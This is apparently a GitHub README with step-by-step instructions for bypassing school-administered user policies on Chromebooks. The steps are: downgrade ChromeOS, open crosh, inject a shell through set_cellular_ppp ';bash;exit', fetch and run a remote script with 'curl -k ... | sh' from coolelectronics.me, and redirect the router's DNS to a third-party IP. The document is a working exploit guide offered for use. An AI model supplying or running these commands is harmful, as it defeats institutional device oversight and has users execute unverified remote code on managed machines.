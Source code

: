 **UserPolicy Bypass**

finally (credit to @SprinkzMC for tipping me off about the flag)

You need: The ability to downgrade to a version below 102 A way to access crosh. If it's blocked via extension, use LTBEEF. If it's blocked by user policy, you must use a combination of Incognito Exploit (v81) and Crosh Bypass (Daybreak) A router or hotspot capable of either blocking websites via parental control or setting a custom DNS (129.213.58.41)

Steps: Downgrade to a version below 102 YOU HAVE TO DOWNGRADE! IF YOU DON'T DOWNGRADE AND ASK FOR HELP WE WILL LAUGH AT YOU!!!!!!!!!!!!!! Open crosh (ctrl+alt+t) Elevate to a chronos shell by typing in set_cellular_ppp ';bash;exit' Run the command sh <(curl -k https://coolelectronics.me/bypass.sh) & disown Remove your school account, log out or just clear it in any way you can. The method varies depending on how device policy is set up In your router settings, set the dns to 129.213.58.41 or block m.google.com. (NOT THE NETWORK DNS ON THE CHROMEBOOK, IT WONT WORK) #deleted-channel or DNS Sinkhole + Hotspot on iOS can be used Log into your school account

It should prompt you about a PIN and google play, and then drop you into an account where everything works as normal but no user policies are set. If you get a "sign in required" error, try steps again

This should enable ARC (playstore) and unblock all policy blocked urls When you connect to a wifi without the custom DNS the policy will reload to normal but some changes will persist, more testing is needed
